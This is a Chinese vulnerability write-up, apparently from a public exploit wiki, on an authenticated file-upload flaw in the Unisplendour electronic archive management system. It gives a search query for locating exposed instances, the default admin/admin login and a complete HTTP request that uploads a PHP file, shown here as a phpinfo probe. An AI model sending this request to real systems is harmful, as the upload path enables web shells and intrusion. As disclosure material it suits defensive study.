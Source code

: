 # 紫光档案管理系统 upload.html 后台文件上传漏洞

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。
紫光电子档案管理系统后台存在文件上传漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>紫光电子档案管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="紫光档案管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1633168580711-690386c5-48bd-4162-b6ed-763c9f57ee73-8540126.png)

使用默认口令登录后台 admin/admin, 发送请求包

![img](/assets/PeiQi-Wiki/img/1661154882600-537af591-d2de-45f2-9761-9e83b8225e7f.png)

```php
POST /System/Cms/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 614
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygIRYWNxmDYiZBguT

------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="userID"

admin
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="fondsid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="comid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="token"

6b79a77180e9ec3a7ca351ebe54641a2
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="files[]"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundarygIRYWNxmDYiZBguT--
```

![img](/assets/PeiQi-Wiki/img/1661155071062-f83d5dd4-b6be-4f8f-bbda-4064f63224df.png)

回显路径即为上传成功的文件路径

![img](/assets/PeiQi-Wiki/img/1661155322477-9425083c-ad96-4cc2-8888-c57aa6d86b2f.png)